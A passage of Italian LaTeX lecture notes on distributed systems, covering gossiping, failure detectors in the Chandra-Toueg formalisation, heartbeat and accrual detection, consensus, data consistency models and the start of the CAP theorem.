    \item \textbf{Negative}: il messaggio di gossiping contiene gli identificativi dei messaggi noti per essere stati persi.
\end{itemize}
Sono consentite tutte le possibili combinazioni, ma nella pratica nel caso di una strategia di pull si usa un digest negativo, mentre per quella di push uno positivo.

Lo schema pull/negative è intrinsecamente reattivo, mentre quello push/positive è implementato in accordo ad uno schema proattivo. Il gossiping permette di ottenere la consegna affidabile con una data probabilità prossima a 1.

\vspace{5mm}

Uno schema gossiping convenzionale mostra vulnerabilità che possono essere sfruttate in determinati attacchi o per compromettere le applicazioni basate sul gossiping. Spesso sono attacchi di tipo DoS atti a congestionare una porzione di rete o un determinato nodo. Normalmente la scelta dei nodi verso cui inviare messaggi di gossiping è casuale, oppure in base a determinate metriche di qualità.

La protezione contro compromissioni del gossiping è di fondamentale importanza. Gli attacchi Sybil\footnote{\texttt{https://www.sciencedirect.com/topics/computer-science/sybil-attack}} ad esempio vengono evitati usando un servizio di \textbf{Certificate Authority} (CA) che assegna identità ai partecipanti al gossiping in modo che gli avversari malintenzionati non possano falsificare le identità.

Un'altra soluzione è usare primitive crittografiche per proteggere integrità e autenticità dei messaggi scambiati, oppure considerare validi i messaggi di gossiping se ricevuti da un numero elevato di peer.

Un'alternativa è inviare i messaggi di gossiping a porte conosciute pubblicamente mentre si ritrasmettono a porte selezionate casualmente, e scegliendo casualmente i messaggi da scambiare dai digest per evitare di essere sopraffatti da messaggi fasulli.

Il gossiping è utilizzato come sistema di multicast nella blockchain.

\subsection{Failure Detector}
Uno dei problemi che si riscontra nel progetto di un algoritmo distribuito è decidere quando un determinato processo fallisce (con riferimento a fallimenti per crash). Un \textbf{Failure Detector} è un servizio in grado di stabilire se un processo è fallito. Tale servizio è tipicamente implementato da un insieme di oggetti, ciascuno locale ad uno degli \textit{N} processi del sistema distribuito. Ciascun oggetto (detto local failure detector) esegue un algoritmo di detection in congiunzione con le sue controparti eseguite localmente ad altri processi.

\textbf{N.B.} Si assume che i processi falliscano solo per crash, che abbiano canali di comunicazione affidabili, e che il fallimento di un processo non impedisca agli altri di comunicare.

\vspace{5mm}

In un sistema asincrono, il rilevamento di fallimenti è soggetto ad errori poiché un processo può essere considerato come fallito sebbene questo sia correttamente in esecuzione.

La maggior parte dei failure detector sono inaffidabili, restituendo uno dei due risultati sullo stato di fallimento di un processo \textit{q}:
\begin{itemize}
    \item \textbf{Unsuspected}: il detector ha di recente avuto prova che il processo \textit{q} non è fallito (un messaggio è stato ricevuto di recente dal processo; tuttavia ciò non esclude la possibilità che il processo sia fallito da allora).
    \item \textbf{Suspected}: il detector ha indicazioni sul fatto che il processo \textit{q} potrebbe essere fallito (il processo non riceve messaggi per un tempo maggiore del massimo nominale; tuttavia il processo potrebbe funzionare correttamente, ma non rispondere a causa ad esempio di partizionamenti di rete o eccessivi rallentamenti nell'esecuzione).
\end{itemize}
Entrambi i risultati sono da considerarsi suggerimenti: potrebbero non accuratamente riflettere il reale stato del processo \textit{q}.

\vspace{5mm}

Un failure detector affidabile è sempre accurato nel determinare il crash di un processo. Può restituire i risultati:
\begin{itemize}
    \item \textbf{Unsuspected}: come nel caso di detector inaffidabili, rappresenta solo un suggerimento.
    \item \textbf{Failed}: il detector determina con certezza che il processo \textit{q} è fallito. Il processo non eseguirà nessun azione ulteriore (per definizione, un processo fallito per crash permane nel suo stato, senza eseguire altri passi di elaborazione).
\end{itemize}
\subsubsection{FORMALIZZAZIONE}
La formalizzazione dei concetti inerenti i failure detectors è stata fatta da Chandra e Toueg (C\&T).

Siano dati:
\begin{itemize}
    \item Un sistema composto da $n$ processi $Q=\{p_{1}, p_{2}, ..., p_{n}\}$;
    \item Un orologio globale discreto con valori nell'insieme dei numeri naturali, chiamato $\Phi$;
    \item Una funzione \textit{failure pattern} $F: \Phi \rightarrow 2^{Q}$; $F(t)$ indica l'insieme dei processi falliti fino all'istante $t$;
    \item Un'esecuzione infinita $\sigma$ del sistema (run) nell'insieme delle possibili esecuzioni $\Sigma$.
\end{itemize}
Un \textbf{failure detector} $D_{i}$ è un oracolo associato ad un processo $p_{i}$ che monitora gli altri $n-1$ processi e conserva una lista di processi che sospetta essere falliti.

Dunque, è una funzione da $\Phi \times \Sigma$ (tempo e insieme di tutte le esecuzioni) a $2^{Q}$.

$D_{p}(t, \sigma)$ è l'insieme dei processi che il detector di $p$ sospetta siano falliti. Se $q \in D_{p}(t, \sigma)$, diciamo che $p$ sospetta $q$ al tempo $t$ nell'esecuzione $\sigma$.

Se il detector si accorge di aver commesso un errore, può rimuovere dalla lista dei sospetti un processo erroneamente considerato fallito.

\subsubsection{COMPLETEZZA E ACCURATEZZA}

Chandra e Toueg caratterizzano i failure detector in termini di completezza e accuratezza: 
\begin{itemize}
    \item completezza: c'è un istante di tempo dopo il quale ogni processo andato in crash è permanentemente sospettato da un processo corretto.
    \item accuratezza: c'è un istante dopo il quale nessun processo corretto è sospettato da un processo corretto.
\end{itemize}
La completezza indica la capacità del detector di rilevare i fallimenti, evitando che processi falliti siano considerati corretti (falsi negativi)\footnote{Si noti che la completezza da sola non serve a molto: basta considerare tutti i processi come falliti per far piena completezza.}. L'accuratezza indica, invece, la capacità di non rilevare un fallimento in modo errato, cioè di non considerare falliti processi che sono invece corretti (falsi positivi). 

Possiamo distinguere due livelli di completezza...
\begin{itemize}
    \item \textbf{Completezza forte}: prima o poi ogni processo fallito è permanentemente sospettato da \textit{ogni} processo corretto.
    \item \textbf{Completezza debole}: prima o poi ogni processo fallito è permanentemente sospettato da \textit{qualche} processo corretto.
\end{itemize}
...e quattro livelli di accuratezza: i primi due sono detti di \textit{accuratezza perpetua}, mentre il terzo e il quarto sono più difficili da soddisfare. Si possono rendere i requisiti meno stringenti (e più facili da soddisfare) consentendo a un detector di sospettare di un processo corretto in un qualsiasi istante dell'esecuzione, ma eventualmente deve soddisfare una delle prime due proprietà:
\begin{itemize}
    \item \textbf{Accuratezza forte}: i processi corretti non sono mai sospettati da alcun processo corretto.
    \item \textbf{Accuratezza debole}: c'è almeno un processo corretto che non è mai sospettato da alcun processo corretto.
    \item \textbf{Accuratezza forte eventuale}: c'è un istante di tempo dopo il quale i processi corretti non sono sospettati da alcun processo corretto.
    \item \textbf{Accuratezza debole eventuale}: c'è un istante di tempo dopo il quale almeno un processo corretto non è sospettato da alcun processo corretto.
\end{itemize}
Dai livelli appena introdotti, è possibile fornire otto tipi di failure detector:

\begin{table}[hbt!]
\centering
\begin{tabular}{|c|c|c|c|c|}
\hline
\rowcolor[HTML]{EFEFEF} 
\cellcolor[HTML]{EFEFEF}{\color[HTML]{010066} }                              & \multicolumn{4}{c|}{\cellcolor[HTML]{EFEFEF}{\color[HTML]{3531FF} Accuratezza}}                                                                                                                                                                                     \\ \cline{2-5} 
\rowcolor[HTML]{EFEFEF} 
\multirow{-2}{*}{\cellcolor[HTML]{EFEFEF}{\color[HTML]{010066} Completezza}} & {\color[HTML]{3531FF} Strong}                         & {\color[HTML]{3531FF} Eventually Strong}                                  & {\color[HTML]{3531FF} Weak}                          & {\color[HTML]{3531FF} Eventually Weak}                                   \\ \hline
\cellcolor[HTML]{EFEFEF}{\color[HTML]{010066} Strong}                        & \begin{tabular}[c]{@{}c@{}}Perfect\\ $P$\end{tabular} & \begin{tabular}[c]{@{}c@{}}Eventually Perfect\\ $\diamond P$\end{tabular} & \begin{tabular}[c]{@{}c@{}}Strong\\ $S$\end{tabular} & \begin{tabular}[c]{@{}c@{}}Eventually Strong\\ $\diamond S$\end{tabular} \\ \hline
\cellcolor[HTML]{EFEFEF}{\color[HTML]{010066} Weak}                          & $L$                                                   & $\diamond L$                                                              & \begin{tabular}[c]{@{}c@{}}Weak\\ $W$\end{tabular}   & \begin{tabular}[c]{@{}c@{}}Eventually Weak\\ $\diamond W$\end{tabular}   \\ \hline
\end{tabular}
\end{table}

Relazioni:
\begin{center}
    $P \subseteq L$ \quad \quad $\diamond P \subseteq \diamond L$ \quad \quad $S \subseteq W$ \quad \quad $\diamond S \subseteq \diamond W$
\end{center}
\begin{itemize}
    \item \textbf{Perfect failure detector P}(strongly complete, strongly accurate): tutti i processi falliti prima o poi sono sospettati permanentemente da ogni processo corretto, e tutti i processi corretti non sono mai sospettati da alcun processo corretto. 
    \item \textbf{Eventually perfect failure detector $\diamond $P}(strongly complete, eventually strongly accurate): tutti i processi falliti prima o poi sono sospettati permanentemente da ogni processo corretto, e tutti i processi corretti non sono più sospettati da un instante $t$ in poi da alcun processo corretto. 
    \item \textbf{Strong failure detector S}(strongly complete, weakly accurate): tutti i processi falliti prima o poi sono sospettati permanentemente da ogni processo corretto, e almeno un processo corretto non è mai sospettato da alcun processo corretto. 
    \item \textbf{Eventually strong failure detector $\diamond $S}(strongly complete, eventually weakly accurate): tutti i processi falliti prima o poi sono sospettati permanentemente da ogni processo corretto, e almeno un processo corretto è non più sospettato da un istante $t$ in poi da alcun processo corretto. 
    \item \textbf{Weakly complete, strongly accurate failure detector L}: tutti i processi falliti prima o poi sono sospettati permanentemente da qualche processo corretto, e tutti i processi corretti non sono mai sospettati da alcun processo corretto. 
    \item \textbf{Weakly complete, eventually strongly accurate failure detector $\diamond$L}: tutti i processi falliti prima o poi sono sospettati permanentemente da qualche processo corretto, e tutti i processi corretti sono non più sospettati da un istante $t$ in poi da alcun processo corretto. 
    \item \textbf{Weak failure detector W}(weakly complete, weakly accurate): tutti i processi falliti prima o poi sono sospettati permanentemente da qualche processo corretto, e almeno un processo corretto non è mai sospettato da alcun processo corretto. 
    \item \textbf{Eventually weak failure detector $\diamond$W}(weakly complete, eventually weakly accurate): tutti i processi falliti prima o poi sono sospettati permanentemente da qualche processo corretto, e almeno un processo corretto è non più sospettato da un istante $t$ in poi da alcun processo corretto. 
\end{itemize}

\subsubsection{IMPLEMENTAZIONE}
Se $p_{i}$ è un processo corretto o vivo, deve conoscere se $p_{j}$ è fallito. Ci sono due tipi di realizzazioni: \textbf{Ping-Ack}(proattivo) e \textbf{Heartbeat}(reattivo).

\begin{figure}[ht]
    \centering
    \includegraphics[width=7cm]{./Images/cap2/2.19.png}
\end{figure}

Un failure detector inaffidabile può essere implementato in un sistema asincrono attraverso la tecnica di heartbeat:
\begin{itemize}
    \item Ogni processo p\textsubscript{j} invia un messaggio \textit{"p\textsubscript{j} is alive"} a ciascun altro processo nel sistema distribuito, ogni $T$ secondi.
    \item Il failure detector adotta una stima del massimo tempo di trasmissione di un messaggio, pari a $\Delta$ secondi.
    \item Se il falire detector locale al processo p\textsubscript{i} non riceve un \textit{"p\textsubscript{j} is alive"} entro $T + \Delta$ secondi, allora riporta al processo $q$ che il processo p è \textbf{Suspected}.
    \item Se successivamente riceve un \textit{"p is alive"}, corregge la sua stima, e riporta a $q$ che il processo $p$ è \textbf{Unsuspected}. Altrimenti, assume il processo come fallito.
\end{itemize}
La bontà della risposta fornita ad un processo dipende dall'informazione disponibile localmente. Un failure detector potrebbe dare suggerimenti errati a causa di condizioni di comunicazione estremamente variabili.

Un processo che fallisce per crash inevitabilmente non invierà più messaggi \textit{"p is alive"}; quindi prima o poi ogni altro processo corretto, non ricevendo i messaggi, lo sospetterà di fallimento. Ciò implica \textbf{strong completeness}. Tuttavia, per l'accuratezza possiamo solo pensare che prima o poi i messaggi \textit{"p is alive"} di un processo corretto arriveranno, quindi ci sarà un processo corretto che non sarà sospettato da un altro processo corretto. Ciò implica \textbf{eventual weak accuracy}.

\vspace{5mm}

La scelta dei tempi $T$ e $\Delta$ incide sulle prestazioni del detector. Tempi brevi portano ad indicare spesso come \textit{Suspected} processi che in realtà non sono falliti (falsi positivi), e richiedono molta banda di rete per i messaggi \textit{"p is alive"}. Dall'altra parte, tempi lunghi portano ad indicare spesso come \textit{Unsuspected} processi che in realtà sono falliti (falsi negativi). 

Una soluzione pratica al problema prevede l'uso di valori adattativi per $T$ e $\Delta$, che riflettano le reali condizioni correnti della rete. In questo modo il falire detector resta inaffidabile, ma l'accuratezza aumenta. 

\vspace{5mm}

Un sistema \textbf{parzialmente sincrono} è un sistema inizialmente asincrono ma che dopo un istante (sconosciuto) $t$ diventa sincrono. In questi sistemi, rendendo il timeout adattivo, il detector può essere reso \textbf{eventually perfect} ($\Diamond$P). La \textbf{strong completeness} sussiste per fallimenti di tipo crash. Per la \textbf{eventual strong accuracy}, si osservi che il sistema diventa sincrono da un istante $t$ in poi, dopo il quale si conosce l'intervallo di tempo necessario per inviare un messaggio da $p$ a $q$, per cui prima o poi nessun processo corretto sarà sospettato da un altro processo corretto.

\vspace{5mm}
L'algoritmo di detection diventa affidabile in un sistema sincrono. Infatti $D$ diventa un limite superiore assoluto al ritardo di trasmissione di un messaggio, e non più una stima. L'assenza di un messaggio \textit{"p is alive"} entro $T + \Delta$ permette al failure detector locale di dichiarare con certezza che $p$ è fallito.

È evidentemente che l'algoritmo è molto costoso, vista la richiesta di invio periodico di messaggi di heartbeat. Può essere introdotto un protocollo di detection basato principalmente su messaggi applicativi e che fa uso di messaggi di controllo solo quando il processo che sta monitorando non invia alcun messaggio applicativo al processo monitorato.

\begin{figure}[ht]
    \centering
    \includegraphics[width=7cm]{./Images/cap2/2.20.png}
\end{figure}

Una nuova astrazione, chiamata \textbf{accrual failure detector}, promuove flessibilità ed espressività operando con un livello di sospetto $\Phi$ su una scala continua, invece di tradizionali informazioni di natura booleana (fiducia vs sospetto).

In parole povere, questo valore $\Phi$ rappresenta il grado di certezza che un corrispondente processo monitorato si è arrestato in modo anomalo. Se il processo si blocca effettivamente, è garantito che il valore si accumuli nel tempo e tenda all'infinito.

Viene lasciato alle applicazioni il compito di impostare una soglia di sospetto appropriata in base ai propri requisiti di qualità del servizio: una soglia bassa è propensa a generare molti sospetti errati ma garantisce un rilevamento rapido in caso di incidente reale. Al contrario, una soglia alta genera meno errori ma richiede più tempo per rilevare gli arresti anomali effettivi.

Gli heartbeat arrivano dalla rete e il loro tempo di arrivo viene memorizzato nella finestra di campionamento. I campioni vengono utilizzati per stimare una certa distribuzione degli arrivi. Il tempo dell'ultimo arrivo T\textsubscript{last}, il tempo attuale e la distribuzione stimata vengono utilizzate per calcolare il valore corrente di $\Phi$. Le applicazioni poi attivano sospetti in base ad una certa soglia, o eseguono alcune azioni in funzione di $\Phi$.

\subsubsection{REALIZZAZIONI CONCRETE}
Nelle realizzazioni concrete di failure detector, sono possibili tre diversi approcci:
\begin{itemize}
    \item \textbf{centralizzato}: semplice da realizzare ed in grado di avere una completa visione del sistema, ma p\textsubscript{i} diventa una criticità (Single Point of Failure);
    \item \textbf{ad anello}: più complesso da realizzare, non presenta un nodo critico, ma è vulnerabile a possibili problemi sulla rete;
    \item \textbf{distribuito}: una soluzione che tollera maggiormente problemi di processi e di rete ma genera un forte carico di rete e consumo energetico. Una realizzazione più efficiente dell'approccio distribuito si basa sul gossiping.
\end{itemize}

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.21.png}
\end{figure}

Il funzionamento dell'algoritmo è il seguente:
\begin{enumerate}
    \item Ogni processo mantiene un elenco di membri;
    \item Ogni processo incrementa periodicamente il proprio contatore di heartbeat;
    \item Ogni processo invia per mezzo del gossiping la sua lista di membri;
    \item Al ricevimento, gli heartbeat vengono uniti e l'ora locale viene aggiornata.
\end{enumerate}
Il tempo che un heartbeat impiega a propagarsi e a raggiungere tutti i processi del sistema con alta probabilità è $O(log(n))$. Lo schema è molto robusto contro gli errori: anche se un gran numero di processi si blocca, la maggior parte o tutti i processi rimanenti ricevono comunque tutti gli heartbeat.

Se l'heartbeat non è aumentato per più di T\textsubscript{fail} secondi, il processo corrispondente viene considerato non corretto, con T\textsubscript{fail} solitamente impostato su $O(log(n))$.

È lecito interrogarsi sull'effettiva utilità dei failure detector, infatti i FD inaffidabili possono generare falsi positivi (quindi essere inaccurati) e falsi negativi (essere incompleti), mentre i FD affidabili richiedono che il sistema sia sincrono (e pochi sistemi reali lo sono). Tuttavia i failure detector aiutano a comprendere la natura dei fallimenti in un sistema distribuito. Qualsiasi sistema reale progettato per gestire i fallimenti deve poterli rilevare, anche se maniera imperfetta.

\subsubsection{CONSENSO CON FAILURE DETECTOR}
Alcuni sistemi reali utilizzano FD \textit{"affidabili da progetto"} per raggiungere il consenso. I processi si accordano sull'indicare un processo \textit{p} come Failed se \textit{p} non risponde per più di un certo tempo nominale massimo, anche in un sistema asincrono. In realtà \textit{p} potrebbe non essere fallito, ma i rimanenti processi agiscono come se lo fosse: fanno diventare \textit{p fail-silent}, scartando tutti i messaggi che ricevono da esso. Ciò equivale a trasformare un sistema asincrono in un sistema sincrono. La tecnica è usata ad esempio in ISIS, il toolkit di comunicazione di gruppo per la programmazione distribuita realizzato dalla Cornell University.

\vspace{5mm}

Un altro approccio consiste nell'usare failure detectors inaffidabili. Il consenso viene raggiunto consentendo ai processi Suspected di agire come corretti e partecipare alla decisione, anziché escluderli. Chandra e Toueg hanno dimostrato che il consenso può essere raggiunto, anche in un sistema asincrono e usando detectors inaffidabili, se il numero di processi falliti non eccede N/2 e la comunicazione è affidabile. Il più debole failure detector che può essere usato allo scopo è un \textbf{eventually weak failure detector}.

Chandra e Toueg inoltre hanno dimostrato che in un sistema asincrono non è possibile implementare un \textit{eventually weak failure detector} solo attraverso scambio di messaggi, tuttavia un detector adattivo con timeout variabili va bene in molti casi pratici.

\section{Consistenza dei dati}
È una delle caratteristiche critiche di un sistema distribuito, principalmente perchè l'accesso spesso avviene a dati condivisi da più processi: i protocolli di locking su operazioni di lettura/scrittura limitano fortemente la concorrenza. Inoltre se si consentono accessi concorrenti su diverse repliche, migliorano le prestazioni e l'affidabilità.

Tuttavia, la replicazione comporta la necessità di mantenere la consistenza:
\begin{itemize}
    \item le modifiche ad una replica devono essere eseguite su tutte le altre repliche;
    \item bisogna tener conto di come e quando effettuare le modifiche mantenendo accettabili le prestazioni.
\end{itemize}
L'idea è quella di implementare la comunicazione con operazioni di \texttt{read}/\texttt{write} in uno spazio virtuale condiviso, senza usare primitive di \texttt{send} e \texttt{receive}, che sono implementate da DSM Manager.

Blockchain viene utilizzato in contesti che vogliono la consistenza dei dati in ambito distribuito, infatti spesso in un sistema distribuito le informazioni vengono replicate in più sottosistemi per aumentare le prestazioni. 

\subsection{Modelli di consistenza}
Sia $s_{i}$ il numero di operazioni da parte del processo $P_{i}$:
ci sono $\frac{(s_{1} + s_{2} + ... + s_{n})!}{s_{1}! s_{2}! ... s_{n}!}$ alternanze possibili, ma quante di queste sono permesse?

Un modello di consistenza è un contratto tra i processi e l'archivio di dati distribuito: se i processi rispettano un certo insieme di regole, l'archivio conterrà valori corretti. Processi concorrenti possono aggiornare simultaneamente un archivio di dati.

Gli accessi in lettura e in scrittura richiedono un tempo finito, ma sono operazioni diverse operate su processori diversi, che si possono sovrapporre nel tempo. Bisogna garantire che le operazioni conflittuali siano eseguite sulle varie repliche con un ordinamento che abbia una chiara semantica, ovvero:
\begin{itemize}
    \item conflitto \texttt{read-write}: una lettura e una scrittura concorrenti sullo stesso dato;
    \item conflitto \texttt{write-write}: due scritture concorrenti sullo stesso dato.
\end{itemize}
Il requisito generale è che una \texttt{read} restituisca il valore scritto dalla \texttt{write} più recente. La dicitura \textit{"più recente"} è ambigua in presenza di repliche e accessi concorrenti: il modello di consistenza specifica come viene determinata o definita la \texttt{write} più recente e rispetto a chi. Esistono quindi diversi modelli di consistenza:
\begin{itemize}
    \item Modelli di consistenza \textbf{data-centrici}: si occupano di fornire una vista di un archivio di dati consistente a livello di sistema;
    \item Modelli di consistenza \textbf{client-centrici}: si occupano di fornire una vista di un archivio di dati consistente a livello di un singolo client. Sono più veloci, ma meno accurati dei modelli data-centrici.
\end{itemize}

\subsection{Strict Consistency: modello ideale}
Corrisponde alla nozione di correttezza nel modello di Von Neumann monoprocessore: qualsiasi \texttt{read} su un dato \textit{x} restituisce un valore corrispondente al risultato più recente della \texttt{write} su \textit{x}, secondo un tempo globale.
\begin{itemize}
    \item \texttt{write\textsubscript{i}(x)a}: scrittura di \textit{P\textsubscript{i}} sul dato \textit{x} con valore scritto \textit{a}
    \item \texttt{read\textsubscript{i}(x)b}: lettura di \textit{P\textsubscript{i}} sul dato \textit{x} con valore scritto \textit{b}
\end{itemize}

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.22.png}
\end{figure}

In questo modello la \texttt{write} viene vista istantaneamente da tutti i processi, e non c'è alcuna ambiguità sul più recente. Tuttavia richiede un tempo globale, quindi non è attuabile su un sistema distribuito, ma è possibile rilassare i vincoli di consistenza introducendo i concetti di \textbf{linearizzabilità} e \textbf{consistenza sequenziale}.

\subsection{Consistenza linearizzabile}
Tutte le operazioni ricevono un timestamp globale usando un clock sincronizzato. Linearizzabilità: il risultato di una qualunque esecuzione è uguale a quello ottenuto nel caso in cui:
\begin{itemize}
    \item le operazioni di tutti i processi sono eseguite in qualche ordine sequenziale;
    \item le operazioni di ogni singolo processo nella sequenza sono fatte nello stesso ordine indicato dal suo programma;
    se \textit{ts\textsubscript{OP1}(x) < ts\textsubscript{OP2}(y)} allora \textit{OP1(x)} deve precedere \textit{OP2(y)} nella sequenza.
\end{itemize}
Requisito real-time: le operazioni appaiono come se fossero eseguite istantaneamente su ogni nodo.

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.23.png}
\end{figure}

La linearizzabilità non prescrive uno specifico ordine per le operazioni che non si sovrappongono: si può implementare qualsiasi strategia di ordinamento purché ci sia un singolo ordinamento per le operazioni che si sovrappongono.

\vspace{5mm}

Una sequenza \textit{seq} di eventi <invocazione,risposta> è linearizzabile se esite una permutazione \textit{seq'} di coppie di eventi adiacenti che soddisfa i seguenti requisiti:
\begin{enumerate}
    \item Per ogni variabile \textit{v}, la proiezione di \textit{seq'} su \textit{v} è tale che ogni \texttt{read} (coppia di eventi adiacenti <invocazione,risposta>) restituisce l'esito della \texttt{write} più recente (coppia di eventi adiacenti <invocazione,risposta>) che l'ha immediatamente preceduta.
    
    Ogni processore vede una sequenza comune \textit{seq'} dove ogni lettura restituisce il valore della scrittura più recente.
    \item Se l'evento risposta di \textit{OP1} occorre prima dell'evento invocazione di \textit{OP2} nella sequenza \textit{seq}, allora \textit{OP1} (coppia di eventi adiacenti <invocazione,risposta>) occorre prima di \textit{OP2} (coppia di eventi adiacenti <invocazione,risposta>) anche in \textit{seq'} (ossia l'ordine temporale delle operazioni non sovrapposte in \textit{seq} deve essere preservato in \textit{seq'}).
    
    L'ordinamento comune \textit{seq'} rispetta l'ordinamento globale, \textit{seq'} preserva l'ordine delle operazioni non sovrapposte.
\end{enumerate}

La linearizzabilità si può realizzare ma è molto costosa: tutti i processori devono convenire su un ordinamento comune, occorre simulare una scala temporale globale e la linearizzabilità richiede il \textit{total ordering}, che a sua volta può essere implementato con il broadcast.

\subsection{Consistenza sequenziale}
Primo modello più debole della linearizzabilità, proposto da Lamport e basato su \textit{logical time}.

Il risultato di una qualunque esecuzione è uguale a quello ottenuto se le operazioni di \texttt{read} e \texttt{write} da parte di tutti i processi sull'archivio di dati fossero eseguite in qualche ordine sequenziale e le operazioni di ogni singolo processo apparissero in questa sequenza nell'ordine specificato dal suo programma. Quando i processi sono in esecuzione concorrente, qualunque alternanza di operazioni è accettabile, ma tutti i processo vedono la stessa alternanza di operazioni. Due operazioni che non si sovrappongono, anche se riguardano dati diversi, possono apparire in ordine inverso, purché sia lo stesso ordine per tutti.

\vspace{5mm}

Formalmente, una sequenza \textit{seq} di eventi <invocazione,risposta> è sequenzialmente consistente se esiste una permutazione \textit{seq'} di coppie di eventi adiacenti che soddisfa i seguenti requisiti:
\begin{enumerate}
    \item Per ogni variabile \textit{v}, la proiezione di \textit{seq'} su \textit{v} è tale che ogni \texttt{read} (coppia di eventi adiacenti <invocazione,risposta>) restituisce l'esito della \texttt{write} più recente (coppia di eventi adiacenti <invocazione,risposta>) che l'ha immediatamente preceduta.
    
    Questa condizione è la stessa della linearizzabilità.
    \item Se l'evento di risposta a \textit{OP1} in \textit{P\textsubscript{i}} occorre prima dell'evento invocazione di \textit{OP2} in \textit{P\textsubscript{i}} nella sequenza \textit{seq}, allora \textit{OP1} (coppia di eventi adiacenti <invocazione,risposta>) occorre prima di \textit{OP2} (coppia di eventi adiacenti <invocazione,risposta>) anche in \textit{seq'} (ossia l'ordine temporale delle operazioni non sovrapposte in \textit{seq} deve essere preservato in \textit{seq'}).
    
    L'ordinamento comune \textit{seq'} deve rispettare solo l'ordinamento locale, cioè \textit{seq'} non deve preservare l'ordine delle operazioni non sovrapposte eseguite da processi differenti.
\end{enumerate}
Nell’esempio seguente P\textsubscript{2} vede 0 perché la \texttt{write} è stata fatta su un altro nodo. Dopo la vede perché è contemporanea. La consistenza sequenziale è piu debole della linrealizzabilità quindi se non c’è la prima sicuramente non c’è la seconda.
\clearpage

\begin{figure}[t]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.24.png}
\end{figure}

\subsection{Consistenza causale}
Relazione di causalità:
\begin{itemize}
    \item \textbf{Local order}: l'ordine locale degli eventi definisce l'ordine causale.
    \item \textbf{Inter-process order}: una \texttt{write} precede causalmente una \texttt{read} eseguita da un altro processo se la \texttt{read} restituisce il valore scritto della \texttt{write}. 
    \item \textbf{Transitive closure}: la chiusura transitiva delle due relazioni precedenti definisce l'ordine causale globale. 
\end{itemize}

Per la consistenza causale, solo le \texttt{write} correlate causalmente devono essere viste nello stesso ordine. Operazioni di \texttt{write} che sono potenzialmente in relazione di causa/effetto devono essere viste da tutti i processi nello stesso ordine. Operazioni di \texttt{write} concorrenti possono essere viste in ordine differente da processi differenti. Indebolisce la consistenza sequenziale, perché distingue tra operazioni in relazione causale e quelle che non lo sono.
\clearpage

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.25.png}
\end{figure}

% Please add the following required packages to your document preamble:
% \usepackage[table,xcdraw]{xcolor}
% If you use beamer only pass "xcolor=table" option, i.e. \documentclass[xcolor=table]{beamer}
\begin{table}[ht]
\centering
\begin{tabular}{ll}
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{c}{\cellcolor[HTML]{EFEFEF}\textbf{Consistenza}} & \multicolumn{1}{c}{\cellcolor[HTML]{EFEFEF}\textbf{Descrizione}}                                                                                                                     \\
Stretta                                                          & \begin{tabular}[c]{@{}l@{}}Tutti i processi vedono gli accessi condivisi nello\\ stesso ordine assoluto di tempo\end{tabular}                                                        \\
Linearizzabile                                                   & \begin{tabular}[c]{@{}l@{}}Tutti i processi vedono gli accessi condivisi nello\\ stesso ordine: gli accessi sono ordinati in base ad un\\ timestamp globale (non unico)\end{tabular} \\
Sequenziale                                                      & \begin{tabular}[c]{@{}l@{}}Tutti i processi vedono gli accessi condivisi nello\\ stesso ordine; gli accessi non sono ordinati\\ temporalmente\end{tabular}                           \\
Causale                                                          & \begin{tabular}[c]{@{}l@{}}Tutti i processi vedono gli accessi condivisi correlati\\ causalmente nello stesso ordine\end{tabular}                                                   
\end{tabular}
\end{table}

\subsection{Consistenza con sincronizzazione}
Permette di raggruppare le operazioni e le condizioni di consistenza sono applicate solo a istruzioni di sincronizzazione; le istruzioni non di sincronizzazione possono essere eseguite in ordine diverso dai vari processori.

Un esempio è dato dalla consistenza debole:
\begin{itemize}
    \item Tutte le \texttt{write} sono propagate agli altri processi, e tutte le \texttt{write} fatte altrove sono riportate localmente, all'occorrenza dell'istruzione di sincronizzazione.
    \item Gli accessi a variabili di sincronizzazione sono sequenzialmente consistenti.
    \item L'accesso a variabili di sincronizzazione non è permesso finché tutte le precedenti \texttt{write} non sono state completate su tutte le copie.
    \item Nessuna \texttt{read} o \texttt{write} su un dato è permessa finché non siano stati eseguiti tutti i precedenti accessi sulle variabili di sincronizzazione.
\end{itemize}
Le variabili di sincronizzazione sono due: \textbf{acquire} e \textbf{release}:
\subsubsection{CONSISTENZA RELEASE}
\begin{itemize}
    \item \textbf{Acquire} indica l'ingresso nell SC. Tutte le \texttt{write} dagli altri processi devono riglettersi localmente all'occorrenza di questa istruzione.
    \item \textbf{Release} indica l'uscita dalla SC. Tutti gli aggiornamenti fatti localmente devono essere propagati alle repliche.
\end{itemize}
\textbf{Acquire} e \textbf{release} sono definibili su un sottoinsieme delle variabili. Si parla di consistenza \textit{lazy release} quando gli aggiornamenti sono propagati on demand.

\subsubsection{CONSISTENZA ENTRY}
Ogni variabile ordinaria condivisa è associata ad una variabile di sincronizzazione. All'atto dell'\textbf{acquire} su una variabile di sincronizzazione, è eseguito l'accesso soltanto alle variabili ordinarie protette da quella variabile di sincronizzazione.

\subsection{Teorema CAP}
In presenza di un partizionamento, per mantenere la consistenza, bisogna bloccare il sistema rendendolo non disponibile. Se venissero servite infatti le richieste dalle due partizioni, ci sarebbe l'inconsistenza anche se il sistema sarebbe disponibile.
Il teorema CAP formalizza questa situazione. Proposto da E. Brewer nel 2000 e dimostrato da S. Gilbert e N. Lynch nel 2002, afferma che:

\vspace{5mm}

\begin{center}
    \textit{"Ogni sistema in rete che condivide dati può avere in un dato istante al più due delle tre proprietà desiderabili:}
    \begin{itemize}
        \item \textit{\textbf{Consistency (C)}: avere una copia aggiornata dei dati;}
        \item \textit{\textbf{Availability (A)}: disponibilità dei dati anche in presenza di fallimenti;}
        \item \textit{\textbf{Tolerance to network partitions (P)}: le proprietà del sistema permangono anche in caso di partizionamenti."}
    \end{itemize}
\end{center}

\vspace{5mm}

Se la priorità è la consistenza, si rinuncia all'availability (sistema CP). Se invece la priorità è l'availability, si rinuncia alla consistenza (sistema AP), usando un modello di consistenza più debole (eventual consistency).

Quando si adottano sistemi CP e AP, lo sviluppatore deve sapere cosa offre il sistema:
\begin{itemize}
